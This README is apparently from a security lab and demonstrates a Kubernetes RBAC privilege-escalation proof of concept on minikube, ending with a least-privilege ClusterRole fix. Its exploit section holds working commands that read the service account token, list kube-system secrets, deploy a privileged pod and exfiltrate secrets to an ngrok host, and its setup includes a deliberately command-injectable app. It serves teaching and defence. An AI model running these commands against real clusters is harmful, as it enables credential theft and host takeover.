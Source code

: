 # RBAC issues

## Context
RBAC (Role-based access control) (wiki)[https://en.wikipedia.org/wiki/Role-based_access_control].

When a k8 cluster defines resources, it decides what permissions each resource is entitled to;
Misconfiguring a resource can result K8 cluster components performing outside of their scope, i.e.:
* Exposing inner cluster secrets, tokens and basically everything accessible by the K8 inner API
* Spinning up a privileged pod and gaining root over the host [[Kiril's demo](k8s/PrivilegedPod)]  

### PoC explanation
We'd like to demo what can happen if one managed to access a wrongfully-permissioned resource (via a container in this case);

Our demo begins **after** one has achieved RCE on a cluster container and will showcase what can happen starting from that point;

> We chose not to demo RCE-achieving on a container as this diverges from the intent of this demo and was also demoed before.  

That being said, the steps will begin by interacting with one of the containers themselves as in you were in already in RCE state 

## Setup

Run the following:
```
$ minikube start
$ ...
$ ./build.sh # chmod +x if needed
```

This will do the following:
* Spin up an "app" pod(`:3000`), simple NodeJs app which basically executes any command given (our entry point for initial RCE);
* Define a new "CI service", set the "app" service account as "CI Service"
* Define a new cluster role "CI role" **as too privileged**(got access to `*`)
* Define a cluster role binding and set "CI service" to be of "CI role"

## Exploit

<details>
  <summary>Spoiler alert</summary>
As we explained, we start our journey from the "ci app" and perform RCE using it;
The way we interact w/ the app is via HTTP requests to `/?cmd=<ANY_BASH_CMD>`;

> This means that we execute the commands inside a pod!
>
That being said, let's fetch the IP of this service initially from within our local cluster:

```
$ minikube service ci-service --url=true
```
This should return something like: `http://192.168.39.72:30553`
> in the wild we would access this app via public internet; in this demo we must get it from our minikube first;
 
> From this point on we will use `` to evaluate bash commands;

Let's start w/ a small test - run `ls`:
````
curl `minikube service ci-service --url=true`?cmd=ls
````

Now let's list all env variables:
> Note `KUBE_TOKEN` and `KUBERNETES_PORT_443_TCP_PORT` in the dump! 
````
curl `minikube service ci-service --url=true`?cmd=env
````

Get the [service account token](https://kubernetes.io/docs/tasks/configure-pod-container/configure-service-account/) from `/run/secrets/kubernetes.io/serviceaccount/token`:
````
curl `minikube service ci-service --url=true`?cmd=cat%20/run/secrets/kubernetes.io/serviceaccount/token
````

Now that we have the inner K8 token, we can query for admin stuff using `KUBE_TOKEN` and the [K8 API](https://kubernetes.io/docs/concepts/overview/kubernetes-api/)
> Each example will contain a `decoded` and `encoded` parts; Each has the same payload, tho the encoded version is URI encoded, so we can use spaces etc
> 
> Use this website to uri encode for easy encoding: https://meyerweb.com/eric/tools/dencoder/
````
decoded

KUBE_TOKEN=`cat /var/run/secrets/kubernetes.io/serviceaccount/token`; curl -sSk -H "Authorization: Bearer $KUBE_TOKEN" https://$KUBERNETES_SERVICE_HOST:$KUBERNETES_PORT_443_TCP_PORT/api/v1/namespaces/default/pods/$HOSTNAME

encoded
%0AKUBE_TOKEN%3D%60cat%20%2Fvar%2Frun%2Fsecrets%2Fkubernetes.io%2Fserviceaccount%2Ftoken%60%3B%20curl%20-sSk%20-H%20%22Authorization%3A%20Bearer%20%24KUBE_TOKEN%22%20https%3A%2F%2F%24KUBERNETES_SERVICE_HOST%3A%24KUBERNETES_PORT_443_TCP_PORT%2Fapi%2Fv1%2Fnamespaces%2Fdefault%2Fpods%2F%24HOSTNAME
````

List all secrets
````
decoded
KUBE_TOKEN=`cat /var/run/secrets/kubernetes.io/serviceaccount/token`; curl -sSk -H "Authorization: Bearer $KUBE_TOKEN" https://$KUBERNETES_SERVICE_HOST:$KUBERNETES_PORT_443_TCP_PORT/api/v1/namespaces/kube-system/secrets/

encoded
%0AKUBE_TOKEN%3D%60cat%20%2Fvar%2Frun%2Fsecrets%2Fkubernetes.io%2Fserviceaccount%2Ftoken%60%3B%20curl%20-sSk%20-H%20%22Authorization%3A%20Bearer%20%24KUBE_TOKEN%22%20https%3A%2F%2F%24KUBERNETES_SERVICE_HOST%3A%24KUBERNETES_PORT_443_TCP_PORT%2Fapi%2Fv1%2Fnamespaces%2Fkube-system%2Fsecrets%2F%0A
````

### Examples
#### 1. Vulnerable pod
We first need to write a json file and then apply it to the cluster (like `kubectl apply -f FILE`)
> Note the `privileged:true` in the pod declaration! This leads to root on the host if the attacker wants to. 

generate nginx pod (visualise changes with `minikube dashboard`)
````
decoded

cat > nginx-pod.json <<EOF
{
    "apiVersion": "v1",
    "kind": "Pod",
    "metadata": {
        "name": "nginx-pod"
    },
    "spec": {
        "containers": [
            {
                "name": "nginx",
                "image": "nginx:1.7.9",
                "ports": [
                    {
                        "containerPort": 80
                    }
                ],

                "securityContext":{
                    "privileged": true
                }
            }
        ]
    }
}
EOF


ENCODED
cat%20%3E%20nginx-pod.json%20%3C%3CEOF%0A%7B%0A%20%20%20%20%22apiVersion%22%3A%20%22v1%22%2C%0A%20%20%20%20%22kind%22%3A%20%22Pod%22%2C%0A%20%20%20%20%22metadata%22%3A%20%7B%0A%20%20%20%20%20%20%20%20%22name%22%3A%20%22nginx1%22%0A%20%20%20%20%7D%2C%0A%20%20%20%20%22spec%22%3A%20%7B%0A%20%20%20%20%20%20%20%20%22containers%22%3A%20%5B%0A%20%20%20%20%20%20%20%20%20%20%20%20%7B%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%22name%22%3A%20%22nginx%22%2C%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%22image%22%3A%20%22nginx%3A1.7.9%22%2C%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%22ports%22%3A%20%5B%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%7B%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%22containerPort%22%3A%2080%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%7D%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%5D%2C%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%22securityContext%22%3A%7B%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%22privileged%22%3A%20true%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%7D%0A%20%20%20%20%20%20%20%20%20%20%20%20%7D%0A%20%20%20%20%20%20%20%20%5D%0A%20%20%20%20%7D%0A%7D%0AEOF
````
dispatch it
```
KUBE_TOKEN=`cat /var/run/secrets/kubernetes.io/serviceaccount/token`;
curl -k -v -X POST -H "Authorization: Bearer $KUBE_TOKEN" -H "Content-Type: application/json" https://$KUBERNETES_SERVICE_HOST:$KUBERNETES_PORT_443_TCP_PORT/api/v1/namespaces/default/pods -d@nginx-pod.json    


ENCODED
KUBE_TOKEN%3D%60cat%20%2Fvar%2Frun%2Fsecrets%2Fkubernetes.io%2Fserviceaccount%2Ftoken%60%3B%0Acurl%20-k%20-v%20-X%20POST%20-H%20%22Authorization%3A%20Bearer%20%24KUBE_TOKEN%22%20-H%20%22Content-Type%3A%20application%2Fjson%22%20https%3A%2F%2F%24KUBERNETES_SERVICE_HOST%3A%24KUBERNETES_PORT_443_TCP_PORT%2Fapi%2Fv1%2Fnamespaces%2Fdefault%2Fpods%20-d%40nginx-pod.json
```

This is it! :) 
From this point one can tap into the privileged container and "break out of it";

#### 2. Malicious Pod
Below is an example of pod. This pod is malicious as it dispatches (via simple `curl`) all the k8 secrets once running;
> I'm using ngrok for simple globally-accessible local server. [See here for installation](https://dashboard.ngrok.com/get-started/setup).
>
> Once installed, initiate the server (`$ ngrok http 3000`)and swap the IP in the malicious pod to the one from your ngrok client; 
> you can browse to `http://127.0.0.1:4040` to see visual log of the connections  

Malicious pod
```

decoded
cat > bad-pod.json <<EOF
{
	"apiVersion": "v1",
	"kind": "Pod",
	"metadata": {
		"name": "bad-pod",
	},
	"spec": {
		"containers": [
			{
                "name": "nginx",
                "image": "nginx:1.7.9",
				"command": [
					"/bin/bash"
				],
				"args": [
					"-c",
					"apk update && apk add curl --no-cache; cat /run/secrets/kubernetes.io/serviceaccount/token | { read TOKEN; curl -k -v -H \"Authorization: Bearer $TOKEN\" -H \"Content-Type: application/json\" https://192.168.154.228:8443/api/v1/namespaces/kube-system/secrets; } | curl http://166a39ea.ngrok.io; sleep 100000"
				]
			}
		],
		"serviceAccountName": "ci-service",
		"automountServiceAccountToken": true,
		"hostNetwork": true
	}
}
EOF

ENCODED
cat%20%3E%20bad-pod.json%20%3C%3CEOF%0A%7B%0A%09%22apiVersion%22%3A%20%22v1%22%2C%0A%09%22kind%22%3A%20%22Pod%22%2C%0A%09%22metadata%22%3A%20%7B%0A%09%09%22name%22%3A%20%22nginx2%22%2C%0A%09%7D%2C%0A%09%22spec%22%3A%20%7B%0A%09%09%22containers%22%3A%20%5B%0A%09%09%09%7B%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%22name%22%3A%20%22nginx%22%2C%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%22image%22%3A%20%22nginx%3A1.7.9%22%2C%0A%09%09%09%09%22command%22%3A%20%5B%0A%09%09%09%09%09%22%2Fbin%2Fbash%22%0A%09%09%09%09%5D%2C%0A%09%09%09%09%22args%22%3A%20%5B%0A%09%09%09%09%09%22-c%22%2C%0A%09%09%09%09%09%22apk%20update%20%26%26%20apk%20add%20curl%20--no-cache%3B%20cat%20%2Frun%2Fsecrets%2Fkubernetes.io%2Fserviceaccount%2Ftoken%20%7C%20%7B%20read%20TOKEN%3B%20curl%20-k%20-v%20-H%20%5C%22Authorization%3A%20Bearer%20%24TOKEN%5C%22%20-H%20%5C%22Content-Type%3A%20application%2Fjson%5C%22%20https%3A%2F%2F192.168.154.228%3A8443%2Fapi%2Fv1%2Fnamespaces%2Fkube-system%2Fsecrets%3B%20%7D%20%7C%20curl%20http%3A%2F%2F166a39ea.ngrok.io%3B%20sleep%20100000%22%0A%09%09%09%09%5D%0A%09%09%09%7D%0A%09%09%5D%2C%0A%09%09%22serviceAccountName%22%3A%20%22ci-service%22%2C%0A%09%09%22automountServiceAccountToken%22%3A%20true%2C%0A%09%09%22hostNetwork%22%3A%20true%0A%09%7D%0A%7D%0AEOF
```

Dispatch
```
KUBE_TOKEN=`cat /var/run/secrets/kubernetes.io/serviceaccount/token`;
curl -k -v -X POST -H "Authorization: Bearer $KUBE_TOKEN" -H "Content-Type: application/json" https://$KUBERNETES_SERVICE_HOST:$KUBERNETES_PORT_443_TCP_PORT/api/v1/namespaces/default/pods -d@bad-pod.json

encoded
KUBE_TOKEN%3D%60cat%20%2Fvar%2Frun%2Fsecrets%2Fkubernetes.io%2Fserviceaccount%2Ftoken%60%3B%0Acurl%20-k%20-v%20-X%20POST%20-H%20%22Authorization%3A%20Bearer%20%24KUBE_TOKEN%22%20-H%20%22Content-Type%3A%20application%2Fjson%22%20https%3A%2F%2F%24KUBERNETES_SERVICE_HOST%3A%24KUBERNETES_PORT_443_TCP_PORT%2Fapi%2Fv1%2Fnamespaces%2Fdefault%2Fpods%20-d%40bad-pod.json
```
</details>


### Fix

To fix this problem one should set the role permissions when defining a cluster role.
For example, in our cluster we have defined the following `ClusterRole`:
```
kind: ClusterRole
apiVersion: rbac.authorization.k8s.io/v1
metadata:
  name: ci-role
rules:
  - apiGroups: [""]
    resources: ["*"]
    verbs: ["*"]
``` 
A more secure version for the same role, would look something like this:
```
kind: ClusterRole
apiVersion: rbac.authorization.k8s.io/v1
metadata:
  name: ci-role
rules:
  - apiGroups: [""] # empty string indicates the core api group
    resources: ["pods"] # note that we specify resources, and not wildcard
    verbs: ["get"] # actions w.r.t the allowed resources
``` 
